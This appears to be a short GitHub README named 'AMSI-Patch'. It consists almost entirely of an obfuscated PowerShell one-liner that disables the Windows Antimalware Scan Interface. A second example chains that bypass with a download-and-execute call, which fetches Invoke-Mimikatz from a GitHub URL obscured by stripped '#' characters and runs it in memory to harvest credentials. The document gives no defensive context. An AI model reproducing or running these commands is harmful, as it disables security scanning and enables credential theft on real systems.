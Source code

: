 # AMSI-Patch

```$x = 'si'; $c = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $c, $x)); $z = $Ref.GetField(('am{0}InitFailed' -f $x),'NonPublic,Static'); $z.("Set" + "Value")($null,$true)```

# Example (Invoke-Mimikatz)

```$x = 'si'; $c = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $c, $x)); $z = $Ref.GetField(('am{0}InitFailed' -f $x),'NonPublic,Static'); $z.("Set" + "Value")($null,$true); IEX (iwr -UseBasicParsing "https://raw.githubusercontent.com/die#vus/PowerShellFo#rPentes#ters/ma#in/Tool#s/Invo#ke-#Mimik#atz.p#s1".replace("#", "")); .("Invoke"+ "-Mimikatz")```
